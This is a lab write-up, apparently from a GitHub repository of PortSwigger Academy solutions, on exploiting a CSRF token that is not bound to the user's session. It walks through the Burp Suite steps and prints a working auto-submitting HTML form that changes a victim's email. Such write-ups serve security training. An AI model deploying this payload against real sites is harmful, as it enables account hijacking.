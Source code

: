 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d3ea83ef-dc70-4638-beca-b3cbdb5aaa5f)

## Solution :

Open Burp's browser and log in to your account. Submit the "Update email" form, and intercept the resulting request

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/86b47a7f-50ce-4c4c-8e78-e35d9ba0a979)

Make a note of the value of the CSRF token, then drop the request

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d15de529-28e9-4dcc-bf39-da9b09b3c31a)

Open a private/incognito browser window, log in to your other account, and send the update email request into Burp Repeater.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/dfdc801a-a0f6-4855-9513-55e959368dec)

Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4610b506-2498-4e7a-8cc2-94ed25022db8)

If you're using Burp Suite Professional, right-click on the request and select Engagement tools / Generate CSRF PoC.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/01dde1a0-d942-4e1a-9d6c-5b2490f65421)

payload-

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a6a001c038bd6b183e6bf2c009d0030.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="prank&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="mjC5mm2fSKeEyzqqLhsNaD5KX4ZTN5Bv" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Store the exploit, then click "Deliver to victim" to solve the lab.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d6c92f8c-4490-454f-bcd3-0c637067ec3b)
